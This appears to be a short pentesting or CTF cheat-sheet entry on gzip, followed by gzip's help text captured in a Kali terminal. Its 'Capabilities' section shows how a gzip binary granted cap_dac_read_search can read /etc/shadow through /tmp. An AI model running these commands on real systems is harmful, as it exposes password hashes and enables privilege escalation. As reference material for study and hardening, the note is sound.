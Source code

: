 



### Capabilities

description: If cap_dac_read_search is set. Run ``getcap -r / 2>/dev/null`` to confirm ``/usr/bin/gzip cap_dac_read_search=ep``

gzip can read any file:
gzip -c /etc/shadow > /tmp/shadow.gz
gzip -d /tmp/shadow.gz
cat /tmp/shadow


### Help

```sh
┌──(kali㉿kali)-[~/Downloads/_flag.xyz.extracted]
└─$ gzip -h
Usage: gzip [OPTION]... [FILE]...
Compress or uncompress FILEs (by default, compress FILES in-place).

Mandatory arguments to long options are mandatory for short options too.

  -c, --stdout      write on standard output, keep original files unchanged
  -d, --decompress  decompress
  -f, --force       force overwrite of output file and compress links
  -h, --help        give this help
  -k, --keep        keep (don´t delete) input files
  -l, --list        list compressed file contents
  -L, --license     display software license
  -n, --no-name     do not save or restore the original name and timestamp
  -N, --name        save or restore the original name and timestamp
  -q, --quiet       suppress all warnings
  -r, --recursive   operate recursively on directories
      --rsyncable   make rsync-friendly archive
  -S, --suffix=SUF  use suffix SUF on compressed files
      --synchronous synchronous output (safer if system crashes, but slower)
  -t, --test        test compressed file integrity
  -v, --verbose     verbose mode
  -V, --version     display version number
  -1, --fast        compress faster
  -9, --best        compress better

With no FILE, or when FILE is -, read standard input.

Report bugs to <bug-gzip@gnu.org>.
```